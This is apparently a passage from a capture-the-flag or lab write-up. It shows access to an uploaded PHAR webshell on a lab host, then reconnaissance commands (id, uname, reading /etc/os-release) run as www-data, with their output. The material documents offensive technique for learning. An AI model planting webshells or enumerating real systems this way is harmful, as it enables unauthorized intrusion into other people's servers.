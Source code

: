 > http://10.10.11.241:8080/uploads/shell.phar

![Port 8080 - webshell](images/port_8080_webshell.png)

```bash
www-data@webserver:…/html/uploads# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
www-data@webserver:…/html/uploads# uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
www-data@webserver:…/html/uploads# cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```
